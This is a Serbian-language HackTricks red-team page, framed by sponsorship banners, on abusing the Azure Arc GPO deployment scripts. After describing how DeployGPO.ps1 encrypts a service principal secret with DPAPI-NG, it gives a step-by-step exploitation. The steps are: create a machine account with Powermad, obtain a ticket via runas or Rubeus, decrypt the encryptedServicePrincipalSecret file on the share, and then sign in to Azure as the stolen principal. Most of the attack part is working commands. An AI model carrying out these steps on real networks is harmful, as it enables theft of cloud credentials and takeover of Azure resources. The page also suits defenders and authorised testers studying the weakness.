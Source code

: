# Az - Azure Arc Vulnerable GPO Deploy Script

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

- Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
- Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
- Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
- **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### Identifikacija Problema

Azure Arc omogućava integraciju novih internih servera (pridruženih serverskih domena) u Azure Arc korišćenjem metode Group Policy Object (GPO). Da bi olakšao ovaj proces, Microsoft pruža set alata za implementaciju neophodnih za pokretanje postupka učlanjivanja. Unutar ArcEnableServerGroupPolicy.zip fajla, mogu se pronaći sledeći skriptovi: DeployGPO.ps1, EnableAzureArc.ps1 i AzureArcDeployment.psm1.

Prilikom izvršavanja, DeployGPO.ps1 skript vrši sledeće akcije:

1. Kreira Azure Arc Servers Onboarding GPO unutar lokalnog domena.
2. Kopira EnableAzureArc.ps1 skript za učlanjivanje na određeni mrežni deljeni resurs kreiran za proces učlanjivanja, koji takođe sadrži Windows instalacioni paket.

Prilikom pokretanja ovog skripta, sistem administratori moraju obezbediti dva glavna parametra: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Dodatno, potrebni su i drugi parametri kao što su domen, FQDN servera koji hostuje deljeni resurs, i naziv deljenog resursa. Dodatni detalji kao što su ID zakupca, grupa resursa i ostale neophodne informacije takođe moraju biti obezbeđene skriptu.

Enkriptovan tajni ključ se generiše u AzureArcDeploy direktorijumu na određenom deljenom resursu korišćenjem DPAPI-NG enkripcije. Enkriptovani tajni ključ se čuva u fajlu nazvanom encryptedServicePrincipalSecret. Dokazi o ovome mogu se pronaći u DeployGPO.ps1 skriptu, gde se enkripcija vrši pozivanjem ProtectBase64 sa $descriptor i $ServicePrincipalSecret kao ulazima. Deskriptor se sastoji od SID-ova grupa Domain Computer i Domain Controller, obezbeđujući da tajni ključ može biti dekriptovan samo od strane grupa za bezbednost Domain Controllers i Domain Computers, kako je navedeno u komentarima skripta.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Eksploatacija

Imamo sledeće uslove:

1. Uspešno smo prodrli u internu mrežu.
2. Imamo mogućnost da kreiramo ili preuzmemo kontrolu nad korisničkim računom na računaru unutar Active Directory-ja.
3. Otkrili smo deljeni mrežni resurs koji sadrži direktorijum AzureArcDeploy.

Postoji nekoliko metoda za dobijanje korisničkog računa mašine unutar AD okruženja. Jedna od najčešćih je iskorišćavanje kvote korisničkog računa mašine. Druga metoda uključuje kompromitovanje korisničkog računa mašine putem ranjivih ACL-ova ili različitih drugih loših konfiguracija.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Kada se dobije nalog mašine, moguće je autentifikovati se koristeći ovaj nalog. Možemo koristiti komandu runas.exe sa zastavicom netonly ili koristiti pass-the-ticket sa Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kada imamo TGT za nalog našeg računara sačuvan u memoriji, možemo koristiti sledeći skript za dešifrovanje tajne servisnog principala.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativno, možemo koristiti [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

U ovom trenutku, možemo prikupiti preostale informacije potrebne za povezivanje sa Azure-om iz ArcInfo.json datoteke, koja je smeštena na istoj mrežnoj deljenoj lokaciji kao i datoteka encryptedServicePrincipalSecret. Ova datoteka sadrži detalje poput: TenantId, servicePrincipalClientId, ResourceGroup, i više. Sa ovim informacijama, možemo koristiti Azure CLI za autentifikaciju kao kompromitovani servisni princip.

## Reference

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

- Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
- Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
- Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
- **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
